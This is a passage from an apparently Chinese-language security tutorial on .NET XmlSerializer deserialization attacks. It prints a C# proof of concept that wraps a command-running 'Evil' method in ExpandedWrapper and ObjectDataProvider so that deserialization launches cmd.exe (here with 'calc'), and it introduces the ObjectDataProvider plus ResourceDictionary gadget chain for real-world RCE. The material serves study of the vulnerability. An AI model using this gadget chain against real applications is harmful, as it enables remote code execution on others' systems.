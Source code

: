利用ExpandedWrapper包装下我们的恶意类，然后在MethodName调用恶意类的恶意方法来执行恶意命令（当然我们可以自己定义一个恶意类然后调用，但是在实际生产环境中，则需要结合ResourceDictionary类进行RCE）

```plain
namespace XmlDeserialization
{
    [XmlRoot]
    public class Person
    {
        [XmlAttribute]
        public string ClassName { get; set; }
        public void Evil(string cmd)
        {
            Process process = new Process();
            process.StartInfo.FileName = "cmd.exe";
            process.StartInfo.Arguments = "/c " + cmd;
            process.Start();
        }
    }

    class Program
    {
        static void Main(string[] args)
        {
            MemoryStream memoryStream = new MemoryStream();
            TextWriter writer = new StreamWriter(memoryStream);
            ExpandedWrapper<Person, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<Person, ObjectDataProvider>();
            expandedWrapper.ProjectedProperty0 = new ObjectDataProvider();
            expandedWrapper.ProjectedProperty0.MethodName = "Evil";
            expandedWrapper.ProjectedProperty0.MethodParameters.Add("calc");
            expandedWrapper.ProjectedProperty0.ObjectInstance = new Person();
            XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<Person, ObjectDataProvider>));
            xml.Serialize(writer, expandedWrapper);
            string result = Encoding.UTF8.GetString(memoryStream.ToArray());
            Console.WriteLine(result);

            memoryStream.Position = 0;
            xml.Deserialize(memoryStream);

            Console.ReadKey();
        }
    }
}
```

#### ObjectDataProvider+ResourceDictionary

**Sink点**：ObjectDataProvider

**调用的类**：ObjectDataProvider + XamlReader + Process
